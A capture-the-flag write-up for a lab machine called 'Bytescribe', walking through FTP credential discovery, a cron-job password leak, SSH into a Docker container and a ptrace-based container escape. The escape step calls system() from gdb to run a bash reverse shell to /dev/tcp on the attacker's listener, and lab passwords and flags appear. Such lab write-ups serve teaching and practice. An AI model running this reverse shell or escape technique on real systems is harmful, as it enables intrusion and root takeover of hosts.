

# Bytescribe

## High Level Overview
"Bytescribe" is a Linux-based medium level Capture The Flag (CTF) machine that provides a challenging environment for penetration testing and security exploration. Here's an overview of its characteristics and the steps to achieve the objective:
Upon initial access to the machine via anonymous FTP, you'll discover base45 encoded credentials. Leveraging these credentials, you gain SSH access to the system. Further investigation reveals a cron job within the /etc/crontab file, which potentially allows for privilege escalation.
Additionally, the machine exposes SSH on port 2222, and the previously obtained credentials may grant access. However, it becomes evident that the gained new system is running within a container. To escalate privileges beyond the container and achieve host-level root control, a Docker escape method is employed.
"Bytescribe" presents a complex challenge, demanding skills in credential discovery, SSH access, privilege escalation, and expertise in container security. It offers an opportunity to hone your penetration testing skills, particularly in Linux environments and containerized setups.

## Enumerating the target
Run a port scan to find open ports and their services. 
```
┌──(kali㉿kali)-[~]
└─$ nmap 192.168.163.135 -sV
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-05 19:45 EDT
Nmap scan report for 192.168.163.135
Host is up (0.0049s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     ProFTPD
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
2222/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.42 seconds
```

## Enumerating Services 

### FTP 

Let's start service enumeration with port 21. As shown below, anonymous login is allowed for READ access. 

```
┌──(kali㉿kali)-[~]
└─$ ftp 192.168.163.135
Connected to 192.168.163.135.
220 ProFTPD Server (Debian) [::ffff:192.168.163.135]
Name (192.168.163.135:kali): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230-Welcome, archive user anonymous@192.168.163.133 !
 
 The local time is: Thu Oct 05 19:47:44 2023
 
 This is an experimental FTP server.  If you have any unusual problems,
 please report them via e-mail to <root@bytescribe-virtual-machine>.
 
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||25727|)
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp            30 Sep 15 00:23 hidden.txt
-rw-r--r--   1 ftp      ftp           170 Sep 15 00:24 welcome.msg
226 Transfer complete
ftp> get hidden.txt
local: hidden.txt remote: hidden.txt
229 Entering Extended Passive Mode (|||36434|)
150 Opening BINARY mode data connection for hidden.txt (30 bytes)
100% |*********************************************************************************************************************************************************************|    30       25.23 KiB/s    00:00 ETA
226 Transfer complete
30 bytes received in 00:00 (7.58 KiB/s)
ftp> exit
221 Goodbye.
```

There is a txt file named hidden.txt. Its content has some string.
```
┌──(kali㉿kali)-[~]
└─$ ls
Desktop  Documents  Downloads  hidden.txt  Music  Pictures  Public  Templates  Videos
┌──(kali㉿kali)-[~]
└─$ cat hidden.txt 
9KC7WEJQE*KEYJC5G7$/E4-CFH8Q1
```

To decode this I used https://dencode.com/ 



From the results, it is obvious that, it is encoded via Base45 method and it contains credentials: 
**bytescribe:4vrf%BTG**

### Getting initial foothold
```
┌──(kali㉿kali)-[~]
└─$ sshpass -p '4vrf%BTG' ssh bytescribe@192.168.163.135  
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-33-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Expanded Security Maintenance for Applications is not enabled.

28 updates can be applied immediately.
27 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

Last login: Sun Oct  1 17:53:06 2023 from 192.168.163.1
bytescribe@bytescribe-virtual-machine:~$ 
bytescribe@bytescribe-virtual-machine:~$ ls
creds.txt  Desktop  Documents  Downloads  Music  Pictures  Public  snap  Templates  user1.txt  Videos
bytescribe@bytescribe-virtual-machine:~$ cat user1.txt 
ICSD{34e24ab4eef182bc8a1e9467db58e5ae}
bytescribe@bytescribe-virtual-machine:~$ 
```

There is also another file 'creds.txt' here, which is owned by root and the user 'bytescribe' can not read this.  
```
bytescribe@bytescribe-virtual-machine:~$ ls -l creds.txt
-rw-r----- 1 root root 14 Sep 14 21:03 creds.txt
bytescribe@bytescribe-virtual-machine:~$ cat creds.txt 
cat: creds.txt: Permission denied
```

### Privilege Escalation
After some enumeration, a cron job was found in the /etc/crontab file. 
```
bytescribe@bytescribe-virtual-machine:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
# You can also override PATH, but by default, newer versions inherit it from the environment
#PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    cat /home/bytescribe/creds.txt > /tmp/root.passwd
#
```

It's apparent from here that this cron job writes the content of "creds.txt" into the "/tmp/root.passwd" file every minute. In that case, the user 'bytescribe' can read content of '/tmp/root.passwd'
```
bytescribe@bytescribe-virtual-machine:~$ cat /tmp/root.passwd
root:1x2zQSWA
```

However, trying to login as root user did not work.
```
bytescribe@bytescribe-virtual-machine:~$ su root
Password: 
su: Authentication failure
bytescribe@bytescribe-virtual-machine:~$
```

Then, reminded that there was another open ssh port 2222. Tried to login to that port with these credentials and it worked.
```
┌──(kali㉿kali)-[~]
└─$ sshpass -p '1x2zQSWA' ssh root@192.168.163.135 -p 2222
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-33-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Fri Oct  6 00:30:07 2023 from 192.168.163.133
root@bytescribe-virtual-machine:~# ls
user2.txt
root@bytescribe-virtual-machine:~# cat user2.txt 
ICSD{37fh34uhf34f1ecw}
```

We gained root shell in the container which is hosted on the Bytescribe machine. To make it more challenging to identify that it is in docker I made hostname of docker as the same as host's hostname. However, there are multiple ways to identify that we logged into the docker. 

1. **IP address**. On the host, we can see that there are other interfaces which are related to dockers.

    ```
    bytescribe@bytescribe-virtual-machine:~$ ip a
    1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo
        valid_lft forever preferred_lft forever
        inet6 ::1/128 scope host 
        valid_lft forever preferred_lft forever
    2: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
        link/ether 00:0c:29:15:64:ff brd ff:ff:ff:ff:ff:ff
        altname enp11s0
        inet 192.168.163.135/24 brd 192.168.163.255 scope global dynamic noprefixroute ens192
        valid_lft 931sec preferred_lft 931sec
        inet6 fe80::b96c:ff38:9b6d:723b/64 scope link noprefixroute 
        valid_lft forever preferred_lft forever
    3: br-1973f7f468f0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
        link/ether 02:42:ad:75:90:19 brd ff:ff:ff:ff:ff:ff
        inet 172.19.0.1/16 brd 172.19.255.255 scope global br-1973f7f468f0
        valid_lft forever preferred_lft forever
    4: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
        link/ether 02:42:ab:f6:b4:40 brd ff:ff:ff:ff:ff:ff
        inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
        valid_lft forever preferred_lft forever
        inet6 fe80::42:abff:fef6:b440/64 scope link 
        valid_lft forever preferred_lft forever
    5: br-9d1acfa3c847: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
        link/ether 02:42:33:48:e4:f3 brd ff:ff:ff:ff:ff:ff
        inet 172.18.0.1/16 brd 172.18.255.255 scope global br-9d1acfa3c847
        valid_lft forever preferred_lft forever
    7: vethed575a5@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master docker0 state UP group default 
        link/ether e6:3b:f2:c0:64:1b brd ff:ff:ff:ff:ff:ff link-netnsid 0
        inet6 fe80::e43b:f2ff:fec0:641b/64 scope link 
        valid_lft forever preferred_lft forever
    ```
    ```
    root@bytescribe-virtual-machine:~# ifconfig
    eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:ac:11:00:02  txqueuelen 0  (Ethernet)
        RX packets 522  bytes 63794 (63.7 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 812  bytes 132436 (132.4 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

    lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
    ```
    It is obvious that container uses host's 4th interface

2. **File System.** After enumerating the file system it can be detected that it is not the same as with the gained on the initial foothold step. For example, there is not home directory of the user "bytescrube" in the "/home" folder. 

# Docker Escape
After detecting the docker, the next step is Docker Escape.  
During enumerating, it can be seen that, container has following capabilities. 
```
root@bytescribe-virtual-machine:~# capsh --print
Current: cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_sys_ptrace,cap_sys_admin,cap_mknod,cap_audit_write,cap_setfcap=ep
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_sys_ptrace,cap_sys_admin,cap_mknod,cap_audit_write,cap_setfcap
Ambient set =
Current IAB: !cap_dac_read_search,!cap_linux_immutable,!cap_net_broadcast,!cap_net_admin,!cap_ipc_lock,!cap_ipc_owner,!cap_sys_module,!cap_sys_rawio,!cap_sys_pacct,!cap_sys_boot,!cap_sys_nice,!cap_sys_resource,!cap_sys_time,!cap_sys_tty_config,!cap_lease,!cap_audit_control,!cap_mac_override,!cap_mac_admin,!cap_syslog,!cap_wake_alarm,!cap_block_suspend,!cap_audit_read,!cap_perfmon,!cap_bpf,!cap_checkpoint_restore
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
 secure-no-ambient-raise: no (unlocked)
uid=0(root) euid=0(root)
gid=0(root)
groups=0(root)
Guessed mode: UNCERTAIN (0)
```
The **sys_ptrace** capability allows a process within the container to trace and debug other processes on the host system, including attaching a debugger like GDB to host processes.

The **sys_admin** capability provides broader system administration privileges, which can include manipulating namespaces and certain aspects of the container runtime environment.

After this, while enumerating processes, choose one whose owner is root(for example: /usr/lib/snapd/snapd) and attach it to GDB (GNU Debugger)

```
root@bytescribe-virtual-machine:~# ps aux | grep /usr/lib/snapd/snapd
root         685  0.0  0.7 1245392 30536 ?       Ssl  Oct05   0:01 /usr/lib/snapd/snapd
root       15568  0.0  0.0   4028  2048 pts/1    S+   01:25   0:00 grep --color=auto /usr/lib/snapd/snapd
root@bytescribe-virtual-machine:~# gdb -p 685
GNU gdb (Ubuntu 12.1-0ubuntu1~22.04) 12.1
Copyright (C) 2022 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
Attaching to process 685
[New LWP 921]
[New LWP 925]
[New LWP 926]
[New LWP 1129]
[New LWP 1135]
[New LWP 1136]
[New LWP 1241]
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
0x000056123e1a89a3 in ?? ()
(gdb) call (void)system("bash -c 'bash -i >& /dev/tcp/192.168.163.133/1234 0>&1'")
[Detaching after vfork from child process 15575]
```
And it spawns shell on our listener
```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.163.133] from (UNKNOWN) [192.168.163.135] 40094
bash: cannot set terminal process group (685): Inappropriate ioctl for device
bash: no job control in this shell
root@bytescribe-virtual-machine:/# cd /root
cd /root
root@bytescribe-virtual-machine:/root# ls
ls
docker
root.txt
snap
root@bytescribe-virtual-machine:/root# cat root.txt
cat root.txt
ICSD{065a70cc86657f8ea41a2f349901c985}
root@bytescribe-virtual-machine:/root# 
```
